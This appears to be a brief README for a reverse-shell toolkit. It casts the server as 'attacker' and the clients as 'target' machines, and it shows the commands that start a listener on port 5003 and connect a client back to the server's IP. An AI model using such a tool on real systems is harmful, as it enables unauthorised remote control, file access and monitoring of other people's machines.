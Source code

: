 # advance-reverse-shell-toolkit
This toolkit comprises both client and server components, enabling remote communication between a server (attacker) and multiple client (target) machines. It provides advanced functionalities, including multi-client command execution, enhanced file management capabilities, and comprehensive system monitoring.

[server-machine] $ python server.py
Listening as 0.0.0.0:5003 ...
interpreter $>help

[client-machine] $ python client.py [server-machine-ip]
